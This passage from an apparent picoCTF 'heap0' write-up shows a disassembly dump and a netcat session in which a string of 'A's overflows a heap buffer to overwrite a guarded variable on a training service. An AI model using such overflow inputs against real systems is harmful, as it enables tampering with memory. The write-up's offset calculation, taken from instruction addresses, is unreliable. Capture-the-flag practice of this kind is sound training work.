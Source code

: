 ```sh
   0x0000000000001377 <+71>:    xor    eax,eax
   0x0000000000001379 <+73>:    call   0x1040 <printf@plt>
   0x000000000000137e <+78>:    mov    rdi,rbx
   0x0000000000001381 <+81>:    call   0x1030 <puts@plt>
   0x0000000000001386 <+86>:    mov    rdx,QWORD PTR [rip+0x2ceb]        # 0x4078 <safe_var>
   0x000000000000138d <+93>:    mov    rdi,r14
   0x0000000000001390 <+96>:    mov    rsi,rdx
   0x0000000000001393 <+99>:    xor    eax,eax
   0x0000000000001395 <+101>:   call   0x1040 <printf@plt>
   0x000000000000139a <+106>:   mov    rdi,rbx
   0x000000000000139d <+109>:   call   0x1030 <puts@plt>
   0x00000000000013a2 <+114>:   mov    rax,QWORD PTR [rip+0x2c37]        # 0x3fe0
   0x00000000000013a9 <+121>:   mov    rdi,QWORD PTR [rax]
   0x00000000000013ac <+124>:   call   0x1080 <fflush@plt>
   0x00000000000013b1 <+129>:   add    rsp,0x8
   0x00000000000013b5 <+133>:   pop    rbx
   0x00000000000013b6 <+134>:   pop    r14
   0x00000000000013b8 <+136>:   ret
End of assembler dump.
```

Voiala. From that, we see we have the address `0x0000000000001363` for `input_data` and `0x0000000000001386` for `safe_var`. We can subtract these and we get 0x23, or 35 in decimal. Perfect. Now we can enter in 35 or more bytes and we will get our flag!

Let's run the service and see if this works:
```
$ nc tethys.picoctf.net 62816

Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5c68bb7db2b0  ->   pico
+-------------+----------------+
[*]   0x5c68bb7db2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 1
Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
```